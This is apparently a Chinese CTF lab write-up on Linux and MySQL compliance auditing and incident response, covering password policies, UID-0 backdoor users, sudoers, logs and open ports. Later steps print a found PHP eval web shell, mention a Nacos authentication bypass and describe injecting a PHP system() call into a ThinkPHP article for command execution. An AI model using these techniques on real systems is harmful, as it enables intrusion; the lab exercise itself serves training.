## 前言

环境来自于玄机edisec

## 题解

### 步骤一

1.查看相应文件，账户xiaoming的密码设定多久过期

linux chage命令简介：chage命令用于密码实效管理，该是用来修改帐号和密码的有效期限。

```
chage -l xiaoming 

#执行会得到以下内容

Last password change                                    : <上次密码更改的日期>
Password expires                                        : <密码过期日期>
Password inactive                                       : <密码失效日期>
Account expires                                         : <账户失效日期>
Minimum number of days between password change          : <密码更改的最小天数>
Maximum number of days between password change          : <密码更改的最大天数>
Number of days of warning before password expires       : <密码过期警告天数>
```

那么我这里得到的信息呢就是

```
root@dengbap:~# chage -l xiaoming
Last password change                                    : password must be changed
Password expires                                        : password must be changed
Password inactive                                       : password must be changed
Account expires                                         : never
Minimum number of days between password change          : 0
Maximum number of days between password change          : 7
Number of days of warning before password expires       : 7
```

这里没有修改过密码，不过可以看出密码的有效期限也就是7天

**答案：flag{7}**

### 步骤二

2.查看相应文件，设置的密码到期规则是多少按照flag{提醒时间-最大时间}进行提交

```
cat /etc/login.defs   #可以在Password aging controls中查看并配置用户的密码过期规则
```



**答案：flag{7-99999}**

### 步骤三

3.已安装ssh，请提交当前SSH版本

```
root@dengbap:/www# ssh -V
OpenSSH_8.9p1 Ubuntu-3ubuntu0.7, OpenSSL 3.0.2 15 Mar 2022
```

**答案：flag{OpenSSH\_8.9p1**}

### 步骤四

4.对passwd及shadow文件权限分配进行权限值提交并提交是否合规如：644+true

```
root@dengbap:/# ls -l /etc/passwd /etc/shadow
-rwxr-xr-x 1 root root   2304 Jun 25 16:19 /etc/passwd
-rwxr-xr-x 1 root shadow 1770 Jul  6 20:03 /etc/shadow

#-rwxr-xr-x用数字表示为755
```

这两个文件的权限值不合规

**答案：flag{755+false}**

### 步骤五

5.结合相关知识检查在系统中存在可疑用户，进行提交用户名,多个用户名以+号连接

此处应急响应的时候也可以用到，主要查看在用户家目录，root家目录，以及passwd和shadow文件的可疑用户和字段

```
cat /etc/passwd   #查看账号信息

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dengbao:x:1000:1000:dengbao:/home/dengbao:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
xiaoming:x:1001:1001::/home/xiaoming:/bin/sh
yunwei:x:0:1002::/home/yunwei:/bin/sh
security:x:1002:1003::/home/security:/bin/sh
zhanglei:x:1003:1004::/home/zhanglei:/bin/sh
wangwei:x:0:1005::/home/wangwei:/bin/sh
zhangsan:x:1004:1006::/home/zhangsan:/bin/sh
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
redis:x:115:121::/var/lib/redis:/usr/sbin/nologin
www:x:1005:1007::/home/www:/sbin/nologin
dnsmasq:x:116:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```

逐个尝试，发现在yunwei和wangwei两个用户中的权限是root，属于可疑用户



**答案：flag{yunwei+wangwei}**

### 步骤六

6.结合相关知识，对没有进行权限分离的用户进行提交

```
root@dengbap:/# cat /etc/sudoers
..................
..................
# User privilege specification
root    ALL=(ALL:ALL) ALL
zhangsan ALL=(ALL:ALL) ALL
# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "@include" directives:

@includedir /etc/sudoers.d
```

可以看到User privilege那里多了一个zhangsan

**sudo命令的工作过程**

- 1、当用户执行sudo时，系统会主动寻找/etc/sudoers文件，判断该用户是否有执行sudo的权限；

- 2、确认用户具有可执行sudo的权限后，让用户输入用户自己的密码确认；

- 3、若密码输入成功，则开始执行sudo后续的命令；

- 4、root执行sudo时不需要输入密码(文件中有配置root ALL=(ALL) ALL这样一条规则)；

- 5、若欲切换的身份与执行者的身份相同，也不需要输入密码。

参考文章：[ubuntu给用户赋予root权限,并且免密sudo su\_root all=(all:all) all-CSDN博客](https://blog.csdn.net/weixin_43944305/article/details/103618820)

**答案：flag{zhangsan}**

### 步骤七

7.结合相关知识，提交审计日志功能状态

对日志开启状态进行提交：systemctl status syslog



**答案：flag{active}**

**步骤八**

8.审计相关日志，查看zhangsan用户尝试使用sudo但登录失败的日志，提交其时间，如flag{Jun 23 00:39:52}

日志文件的位置是 /var/log/auth.log

```
root@dengbap:~# cat /var/log/auth.log |grep "zhangsan"
Jul  6 20:24:24 dengbap su: (to zhangsan) root on pts/0
Jul  6 20:24:24 dengbap su: pam_unix(su:session): session opened for user zhangsan(uid=1004) by root(uid=0)
Jul  6 20:24:29 dengbap su: pam_unix(su:session): session closed for user zhangsan
```

**答案：flag{Jun 23 01:38:20}** #可能是环境不对，我这里没有

**步骤九**

9.结合相关合规知识，提交相关系统内核版本

```
root@dengbap:/# uname -r
5.15.0-112-generic
```

**答案：flag{5.15.0-112-generic}**

**步骤十**

10.对开启的端口排查，结合应急响应知识，对开放的相关恶意端口进行提交

```
root@dengbap:/# netstat -tuln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:5566            0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:6379          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:41089         0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:17221         0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:8090            0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:17380         0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:15329         0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:17400         0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:17131         0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:17033         0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:15640         0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:33060           0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:5538          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:15445         0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:12345           0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:15538         0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:9080            0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:8899            0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:8848            0.0.0.0:*               LISTEN
tcp6       0      0 :::3306                 :::*                    LISTEN
tcp6       0      0 ::1:6379                :::*                    LISTEN
tcp6       0      0 :::33060                :::*                    LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
tcp6       0      0 :::8848                 :::*                    LISTEN
udp        0      0 127.0.0.53:53           0.0.0.0:*
udp        0      0 10.0.10.1:68            0.0.0.0:*
```

进入服务器中的小皮面板看看呢



在站点发现可疑目录，并且对应的就是5566这个端口





在目录中发现这个木马

**答案：flag{5566}**

### 步骤十一

11.已知相应的WEB恶意端口，提交其隐藏文件中flag

在上图中的hacker.php中有

```
<?php eval($_POST['7815696ecbf1c96e6894b779456d330e']); ?>
```

**答案：flag{7815696ecbf1c96e6894b779456d330e}**

### **步骤十二**

12.结合相关知识，提交MySQL存在空口令风险的用户名，多个用户名已+连接

我这里使用的是数据库连接工具datagrip，可以直接打开mysql数据库中的user表，查看authentication字段为空的用户即可，或者使用以下命令

```
select User,authentication_string  from mysql.user;
```



可以看到yunwei是没有密码的

**答案：flag{yunwei}**

### 步骤十三

13.结合相关知识，对MySQL密码复杂度查询到的最小长度进行提交

```
SHOW VARIABLES LIKE 'validate_password%';

#查到validate_password.length的值为8
```

**答案：flag{8}**

### 步骤十四

14.结合相关知识，对MySQL登录最大失败次数查询并提交

```
show variables like '%connection_control%';

#connection_control_failed_connections_threshold     3
```

**答案：flag{3}**

### 步骤十五

15.结合相关知识，对MySQL超时返回最大时常进行提交(秒为单位)

```
SHOW VARIABLES LIKE 'wait_timeout';   #28800
```

**答案：flag{28800}**

### 步骤十六

16.结合相关知识，对MySQL锁定用户数量进行提交

```
SELECT COUNT(*) FROM mysql.user WHERE account_locked = 'Y';    # 3
```

**答案：flag{3}**

### 步骤十七

17.提交MySQL全局日志状态 OFF或ON

```
SHOW VARIABLES LIKE 'general_log';  # OFF
```

**答案：flag{OFF}**

### 步骤十八

18.提交当前MySQL数据库版本

```
select version(); #8.0.27
```

**答案：flag{8.0.27}**

### 步骤十九

19.使用/root/fscan/fscan对本地进行扫描，对存在漏洞的端口进行提交，多个端口以+连接



123456是redis的弱密码

**答案：flag{6379+8848}**

### 步骤二十

20.根据找到其中的一个应用服务漏洞，提交数据中的flag

上一个步骤里的8848端口存在nacos权限绕过

抓到登陆包，修改如图，可以创建用户



在后台拿到flag



**答案：flag{636ce4dc544036142a8e05a686b5c27e}**

### 步骤二十一

20.根据搭建服务端口12345进行渗透测试，提交命令执行的whoami回显包



网站应该还是用thinkphp搭建的

这里可以使用现成的框架工具来渗透，不过没有能直接执行命令的poc



来到后台添加文章，每个点都尝试一下

<?php system(whoami);?>转义后替换到info里，发包就行

最后访问文章，把文章后缀的html改为php，即可得到权限为www

**答案：flag{www}**
